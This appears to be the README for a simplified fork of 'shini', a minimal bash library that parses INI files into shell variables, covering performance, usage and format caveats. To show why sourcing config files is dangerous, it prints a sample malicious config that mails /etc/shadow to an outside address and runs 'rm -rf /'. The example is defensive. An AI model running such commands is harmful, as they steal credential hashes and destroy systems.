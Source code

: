 shini
=====

A small, minimalist, <s>portable</s> <em>compatible</em><sup>1</sup> `/bin/bash` routine for reading of INI files.

<em><sup>1</sup> This script previously attempted to be "portable", that is to say - written in a manner that it would reliably have a good chance of running anywhere with no specific implementation coded inside.  In order to gain usable performance on INI files bigger than "very small", it has since been modified to include shell specific implementation for recent versions of `bash` - considerably increasing performance at the cost of code complexity.  Therefore, I am calling it 'compatible' herein.</em>

**NOTE** by pachi-belero: this fork contains a very simplified version of the original `shini` which disables callbacks and writing, and **supports only bash version 3** or newer.

## About

### What is `shini`?
As above.  It's a small set of functions written for inclusion in shell scripts, released under the MIT license.

### Is it slow?
Shell scripting was never designed with speed for this kind of processing in mind.  That said, on recent versions of `bash` (version 3 or newer) the performance is quite acceptable.

On an 2012 i7 MacBook, a 1900 line INI file will fully parse within 0.6s:

    $ wc -l tests/php.ini 
    1917 tests/php.ini

    $ time bash ./test_perf.sh > /dev/null
    real    0m0.838s

    $ time bash ./test_perf.sh opcache > /dev/null
    real    0m0.313s

### Why do I need it?
You probably don't.  But if you have or ever do find yourself writing a shell script which:
 * Needs system or user specific settings
 * Needs to read an existing INI file

... then you might find `shini` saves you a lot of time, and makes things safer.

### How can it make things safer?
Because system and user specific settings in shell scripts usually end up implemented as:

```
# /usr/local/sbin/rootonlyscript
. /etc/myscript
if [ -n SETTING1 ]; then
  echo "You didn't specify SETTING1" 1>&2
fi
```

The settings file looks like:

```
# /etc/myscript
SETTING1='abc'
SETTING2='def'
```
... and everything is cool until *this* happens:

```
# /etc/myscript
SETTING1='abc'
SETTING2='def'
cat /etc/shadow | mail someone@wishyouwerehere.com
rm -rf /
```

Alas, bye bye shadow file - bye bye system.

`shini` only reads the file; never includes, interprets or executes it.  A better solution.

### So `shini` just makes my shell script secure?

Erm, no.  Please go away and learn to code before proceeding.

Remember:
 * Your config file must always have sane file permissions - even if its an INI file
 * `shini` is to be included in your script - so it should be located somewhere safe, and with read-only permissions

Best advice, if in doubt:

```
sudo chown root:root shell-ini-parser.sh
sudo chmod 644 shell-ini-parser.sh
```

## Usage

### Show me `shini`!

To see `shini` in action in under 2 minutes:

```
cd "$(mktemp -d -t shini)"
curl https://codeload.github.com/wallyhall/shini/tar.gz/master -o master.tar.gz
tar -xvzf master.tar.gz
chmod +x shini-master/example.sh
cd shini-master/
sh example.sh
```

You should be presented with some output like this (but slightly different in the simplified version):

```
Parsing...

  Section1.name='John Doe'
  Section1.organization='Acme Widgets Inc.'
  Section2.server='10.1.2.3'
  Section2.port='80'
  Section2.file='payroll.dat'
  Section2.this_value_was_in_hex='8739'
  Another_Section.test_key_22='test test test'
  Another_Section.var_with_leading_whitespace='value'
  Another_Section.whitespace_test='lots of whitespace'
  Another_Section.quoted_quotespace='  lots more whitespace  '
  Whitespace_Section.null_value=''

Complete.
```

You've just executed the shipped example/test script (`example.sh`) - which parses an example INI file (`example.ini`) - outputting the content in the format `[section].[key]=[value]`.

## Cool.  Now show me how to include and use it myself!

Inclusion of `shini` in your own project is easy.  You can put the content of `shell-ini-parser.sh` inline with your own code (not recommended, but acceptable.  Make sure you appropriately include the MIT license...), or 'source' it externally - i.e.:

```
. "$(dirname "$0")/shell-ini-parser.sh"
. "/usr/local/bin/shell-ini-parser.sh"
... etc
```

`shini` works by parsing INI files line by line - skipping comments.

Each argument can should be carefully handled - always double quote (unless you're certain what you're doing).  Never forget you can't guarantee what is in the INI file being parsed - it could be with evil intent.

When you're ready, invoke the parse function and (optionally) specify the specific INI section you're interested in. You can also optionally set the prefix used to name variables:

```
shini_parse_section "settings.ini"
shini_parse_section "settings.ini" "SomeSection"
shini_parse_section "settings.ini" "" "INI"
```

Bingo. All the variables found will be set in the form PREFIX__SECTION__NAME (note the double underscores and that PREFIX defaults to "SHINI"). Note that the variable names will always be uppercase.
A full (and simple) example can be found in `example.sh`. You can run `. ./example.sh` and see the new variables set, such as SHINI__SECTION1__NAME.

## Known caveats, etc

### Does `shini` follow the official INI format standards?

There are no INI format standards - so yes it does and no it doesn't?

`shini` assumes:

 * Every declaration is on a new line
 * __Sections__ are contained in square brackets, and include `a-z`, `A-Z`, `0-9`, `-` and `_` (no spaces by default) - e.g. `[section]`
 * __Keys__ are followed by an assignment (equal) sign, and include `a-z`, `A-Z`, `0-9`, `-` and `_` (again, no spaces by default) - e.g. `key=`
 * __Values__ follow keys, on the same line.  Anything is valid, except double quotes and semi-colons.  Hexadecimal values (i.e. `0x123`) are parsed and converted to decimal for you.
 * __Comments__ are lines starting with a semi-colon (`;`), such lines are ignored.
 * __Whitespace__ is ignored everywhere - except in between non-whitespace characters in values.  Use double quotes (`"`) to be explicit (e.g. `key=" leading/trailing WS "`)

Due to portability constraints - some of the useful regex power isn't available to `shini`.

This caused some trade-offs - with a lack of efficient control over lazy vs greedy repeats and optional groups etc, comments can only follow key/pair values and empty lines (not sections) - and where it follows values, any whitespace between the value and semi-colon is included as the value.  Explicitly use of double-quotes around the value gets around this issue.

Additionally if your key/value declaration looks like this:

```
key="value" "more text" ; comment
```

... the value reads literally:

```
"value" "more text" ; comment
```

Otherwise, all known "obviously invalid" INI content gets picked up and reported.
